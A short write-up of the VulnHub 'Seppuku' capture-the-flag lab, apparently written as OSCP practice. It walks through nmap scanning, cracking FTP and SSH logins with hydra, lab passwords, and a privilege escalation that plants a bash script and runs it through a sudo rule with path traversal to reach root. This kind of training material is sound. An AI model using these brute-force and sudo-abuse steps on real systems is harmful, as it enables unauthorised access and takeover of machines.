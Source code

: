 ```yaml
---
title: WRITE-UP Seppuku
date: 2024-08-03 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```


# Write-up seppuku

## 1. Enumeration

i used ```netdiscover```  to see real IP mylab

``` terminal
netdiscover
```
![alt text](/assets/img/seppuku/sep_netdiscover.png)
IP: ```192.168.100.17 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.17
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/seppuku/sep_nmap1.png)
![alt text](/assets/img/seppuku/sep_nmap2.png)

*   21 ```ftp``` 
*   22 ```ssh```
*   139-145 ```smb```
*   80-7601-7080-8088 ```http```

![alt text](/assets/img/seppuku/sep_7601_secret.png)
![alt text](/assets/img/seppuku/sep_rsakey.png)

## 2. Post Exploitation
crack ```ftp``` and ```ssh``` password with this credentials using ```hydra```

![alt text](/assets/img/seppuku/sep_ftp.png)

![alt text](/assets/img/seppuku/sep_ssh.png)

user ``` seppuku``` pass ```eeyoree```

## 3. Privilage Escalation

insite we find password of samurai is
```12345685213456!@!@A``` and i use ```sudo -l ``` to get ```root```

![alt text](/assets/img/seppuku/sep_ssh_all.png)

but in ```tanto``` don't have file but he use private key to go ```ssh``` and after recon we have it . 
```
ssh -i private.bak tanto@192.168.100.7 
touch .cgi_bin/bin
echo "/bin/bash" >> .cgi_bin/bin 
chmod 777 .cgi_bin/bin
```
after that i run ```sudo ``` with commnad can run with ```root```

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/
```

![alt text](/assets/img/seppuku/sep_root.png)

